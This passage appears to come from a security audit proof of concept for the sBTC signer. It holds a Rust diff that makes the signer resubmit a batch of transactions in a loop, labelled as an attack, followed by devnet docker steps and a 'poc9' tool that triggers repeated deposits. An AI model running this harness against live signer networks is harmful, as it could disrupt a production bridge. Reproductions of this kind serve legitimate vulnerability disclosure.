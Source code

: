     +            loop {
    +                if i == txs.len() {
    +                    tracing::info!("@audit; attack end");
    +                    break;
    +                }
    +
    +                match self.context.get_stacks_client().submit_tx(&txs[i]).await {
    +                    Ok(SubmitTxResponse::Acceptance(_)) => {
    +                        tracing::info!("@audit; submit_tx success, nonce {:?}", txs[i].get_origin_nonce());
    +                        i += 1;
    +                    },
    +                    Ok(SubmitTxResponse::Rejection(err)) => {
    +                        tracing::info!("@audit; submit_tx err: {:?}, continue", err);
    +                        match err.reason {
    +                            crate::stacks::api::RejectionReason::TooMuchChaining => i -= 1,
    +                            _ => i += 1,
    +                        }
    +                        continue;
    +                    },
    +                    Err(err) => {
    +                        tracing::info!("@audit; submit_tx err: {:?}, break", err);
    +                        break;
    +                    },
    +                }
    +
    +                tokio::time::sleep(Duration::from_secs(1)).await;
    +            }
    +
    +            return Ok(())
    +        }
    +
             // Fetch deposit and withdrawal requests from the database where
             // there has been a confirmed bitcoin transaction associated with
             // the request.
    ```
6.  Run docker

    ```sh
    make devenv-up
    make devenv-down
    docker compose -f docker/docker-compose.yml --profile default --profile bitcoin-mempool --profile sbtc-signer build
    make devenv-up
    ```
7. Add [this code](https://gist.github.com/al-f4lc0n/6befe01b89669cfb756cf747d7cf030d) to `signer/src/bin/poc9.rs`
8.  Patch `signer/Cargo.toml`, add `poc9` bin

    ```diff
    +[[bin]]
    +name = "poc9"
    +path = "src/bin/poc9.rs"
    ```
9.  Waiting for the sBTC contract to be deployed. Then run the `poc9` tool. It will send 40 BTC to the signers BTC address and trigger deposits every 10 seconds
